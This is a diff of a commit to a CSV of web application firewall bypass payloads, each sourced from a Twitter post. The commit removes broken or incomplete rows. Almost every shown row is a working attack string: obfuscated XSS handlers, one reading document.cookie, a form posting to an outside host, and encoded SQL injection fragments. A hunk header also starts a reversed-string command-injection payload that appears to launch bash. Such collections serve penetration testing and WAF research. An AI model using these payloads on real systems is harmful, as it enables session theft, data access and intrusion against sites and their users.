

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

Commit message:
Little fixes in payloads set
I have removed some not full payloads like "unhex(hex(Concat(your sql query)))" and removed payloads with mistakes like "<P/onweel=alert(1)>". Also made some little fixes in payloads attack types.

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -23,3 +23,2 @@ https://twitter.com/su13ym4n/status/1308696263869825024,$(printf 'hsab/nib/ e- 4
 https://twitter.com/3XS0/status/1304506926911434758,<svg%09%0a%0b%0c%0d%a0%00%20onload=alert (1)>,xss
-https://twitter.com/notsoshant/status/1302529726393786368,q= ... select ... <CRLF> from ...,sqli
 https://twitter.com/infosecsanyam/status/1301416231157850112,"Function(""\x61\x6c\x65\x72\x74\x28\x31\x29"")();",xss
@@ -68,3 +67,2 @@ https://twitter.com/3XS0/status/1259679748130734080,"Tarun~<""><details/open/ont
 https://twitter.com/_Y000_/status/1259495435355467783,"%55%4eiON SeLeCt 1,2...",sqli
-https://twitter.com/GochaOqradze/status/1257023309411213314,"""><P/onweel=alert(1)>mouse wheel here<!--",xss
 https://twitter.com/GochaOqradze/status/1257023309411213314,%22%3e%3c%5K/onwheel=alert(1)%3emouse%20wheel%20here%3c%21--,xss
@@ -82,3 +80,2 @@ https://twitter.com/zapstiko/status/1252827433293590528,"<details/open/ontoggle=
 https://twitter.com/_Y000_/status/1252795854362009600,"union (/*!/**/ SeleCT */ 1,2....)",sqli
-https://twitter.com/_Y000_/status/1252795854362009600,unhex(hex(Concat(your sql query))),sqli
 https://twitter.com/XssPayloads/status/1251014936077221888,"tarun""><x/onafterscriptexecute=confirm%26lpar;)//",xss
@@ -188,6 +179,3 @@ https://twitter.com/wugeej/status/1168337434989355009,"<iframe/src=data:text/htm
 https://twitter.com/anonymops_ID/status/1167854274769903617,<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>,xss
-https://twitter.com/spyerror/status/1166146256231682049,"["" <style>
-@KeyFrames
-
- z{</style><div style=animation-name:z onanimationend=&#97&#108&#101&#114&#116&grave;1&grave;> %253Cscript%253Ealert('XSS')%253C%252Fscript%253E ""</script> ""]",xss
+https://twitter.com/spyerror/status/1166146256231682049,"["" <style>@KeyFrames z{</style><div style=animation-name:z onanimationend=&#97&#108&#101&#114&#116&grave;1&grave;> %253Cscript%253Ealert('XSS')%253C%252Fscript%253E ""</script> ""]",xss
 https://twitter.com/Binary_Newb/status/1164586905221992448,<!<script>alert(1)</script> “,xss
@@ -196,3 +184,2 @@ https://twitter.com/bohdansec/status/1164291786828931078,<svg/onload=%26nbsp;ale
 https://twitter.com/page_1337/status/1164291647624097797,<img src onerror=%26emsp;prompt`${document.domain}`>,xss
-https://twitter.com/spyerror/status/1164264620833562625,%3Cspyerror%20script%20goes%20here%3E=%0AByPass,xss
 https://twitter.com/spyerror/status/1164264620833562625,%3Cscript%3Ealert(document.cookie)%3C/script%20ByPass%3E,xss
@@ -218,3 +205,2 @@ https://twitter.com/wugeej/status/1151275999583014912,%20foo_bar%00=foo%20bar%00
 https://twitter.com/brutelogic/status/1148610104738099201,"data:text/html,<form action=https://brutelogic.com.br/xss-cp.php method=post><input type=hidden name=a value=""<img/src=//knoxss.me/yt.jpg onpointerenter=alert`1`>""><input type=submit></form>",xss
-https://twitter.com/wugeej/status/1148451213542748160,form%5bid=user_register_form,xss
 https://twitter.com/RenwaX23/status/1147129395817123840,"<j id=x style=""-webkit-user-modify:read-write"" onfocus={window.onerror=eval}throw/0/+name>H</j>#x",xss
```
Also changed, not shown: 6 removed rows and 9 edited cells elsewhere in this file.
